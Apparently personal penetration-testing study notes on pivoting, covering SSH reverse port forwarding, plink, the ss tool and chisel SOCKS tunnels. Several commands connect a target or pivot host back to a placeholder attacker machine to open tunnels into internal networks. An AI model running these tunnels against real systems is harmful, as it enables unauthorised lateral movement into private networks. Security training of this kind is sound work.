 - **Reverse Connections**
  - generate ssh key
  - put .pub in authorized: command="echo 'This account can only be used for port forwarding'", no-agent-forwarding,no-x11-forwading,no-pty ssh-rsa key
  - restart ssh
  - transfer private key to target: 
  - port forward: ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
  - reverse proxy: ssh -R 1337[localport] USERNAME@ATTACKING_IP -i KEYFILE -fN
  - In the end: delete key

### SS
- tool to investigate sockets
- -t: tcp sockets
- -u: udp sockets
- -l: listening
- -p: show process
- -n: dont resolve 

### PLINK.EXE
- command line for putty
- **Dynamic Port Forward**
  - plink -ssh -D 9050 user@$TARGET
    - ssh session betweent Attacker_windows <=> Pivot_linux
    - Listens on port 9050
- **Proxifier**
  - starts socket tunnel via ssh

- cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
- convert key with puttygen: puttygen key -o xxx.ppk

### CHISEL
- set up tunnel proxy / port forward
- TCP/UDP tunnel over HTTP secured via SSH
- client / server 
- [Download](https://github.com/jpillora/chisel.git)
  - [Releases](https://github.com/jpillora/chisel/releases)
  - [Description](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

- Steps
  - Download chisel
  - Build binary
  - [shrink its size - 24 min](https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1469s)
  - Transfer to pivot
  - Start server on pivot to listen incoming connections
    - chisel server -v -p 1234 --socks5
  - Start client on attacker Connect pivot to Attacker
    - chisel client -v PIVOT:1234 socks
  - Adjust **proxychains** config to tun port
   - config socks5 127.0.0.1 1080

- Reverse SOCKS Proxy
  - server: chisel server -p [port] --reverse &
  - client (pivot): ./chisel client [attacker]:8005 R:socks &
    - R = remote, client knows that server antecipate proxy
